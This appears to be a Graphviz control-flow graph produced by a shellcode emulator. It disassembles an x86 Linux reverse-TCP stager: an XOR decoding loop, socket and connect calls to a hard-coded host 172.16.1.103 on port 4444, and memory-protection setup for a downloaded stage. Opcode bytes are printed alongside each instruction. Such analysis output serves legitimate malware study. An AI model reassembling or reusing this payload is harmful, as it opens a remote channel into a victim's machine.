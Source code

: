 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x8aab0b0" [shape=box, label = "0x00417000 DACD                            fcmove st(0),st(5)\l0x00417002 D97424F4                        fstenv [esp-0xc]\l0x00417006 BB7071EE5D                      mov ebx,0x5dee7170\l0x0041700b 5F                              pop edi\l0x0041700c 2BC9                            sub ecx,ecx\l0x0041700e B112                            mov cl,0x12\l"]
	 "0x8aa9100" [shape=box, label = "0x00417010 315F1A                          xor [edi+0x1a],ebx\l"]
	 "0x8aa8c20" [shape=box, label = "0x00417013 83EFFC                          sub edi,0xfffffffc\l0x00417016 035F16                          add ebx,[edi+0x16]\l"]
	 "0x8aa80c0" [shape=box, label = "0x00417019 E2F5                            loop 0xfffffff7\l"]
	 "0x8aa7a38" [shape=box, label = "0x0041701b 31DB                            xor ebx,ebx\l0x0041701d F7E3                            mul ebx\l0x0041701f 53                              push ebx\l0x00417020 43                              inc ebx\l0x00417021 53                              push ebx\l0x00417022 6A02                            push byte 0x2\l0x00417024 B066                            mov al,0x66\l0x00417026 89E1                            mov ecx,esp\l"]
	 "0x8aa9b18" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417028 socket\l"]
	 "0x8aa9910" [shape=box, label = "0x0041702a 97                              xchg eax,edi\l0x0041702b 5B                              pop ebx\l0x0041702c 68AC100167                      push dword 0x670110ac\l0x00417031 680200115C                      push dword 0x5c110002\l0x00417036 89E1                            mov ecx,esp\l0x00417038 6A66                            push byte 0x66\l0x0041703a 58                              pop eax\l0x0041703b 50                              push eax\l0x0041703c 51                              push ecx\l0x0041703d 57                              push edi\l0x0041703e 89E1                            mov ecx,esp\l0x00417040 43                              inc ebx\l"]
	 "0x8aa6d38" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417041 connect\l"]
	 "0x8aa6b50" [shape=box, label = "0x00417043 B207                            mov dl,0x7\l0x00417045 B900100000                      mov ecx,0x1000\l0x0041704a 89E3                            mov ebx,esp\l0x0041704c C1EB0C                          shr ebx,0xc\l0x0041704f C1E30C                          shl ebx,0xc\l0x00417052 B07D                            mov al,0x7d\l"]
	 "0x8aab0b0" -> "0x8aa9100" [style = bold ]
	 "0x8aa9100" -> "0x8aa8c20" [style = bold, color=orange ]
	 "0x8aa8c20" -> "0x8aa80c0" [style = bold, color=orange ]
	 "0x8aa80c0" -> "0x8aa9100" [style = bold, color=orange ]
	 "0x8aa80c0" -> "0x8aa7a38" [style = bold ]
	 "0x8aa7a38" -> "0x8aa9b18" [style = bold ]
	 "0x8aa9b18" -> "0x8aa9910" [style = bold ]
	 "0x8aa9910" -> "0x8aa6d38" [style = bold ]
	 "0x8aa6d38" -> "0x8aa6b50" [style = bold ]
}
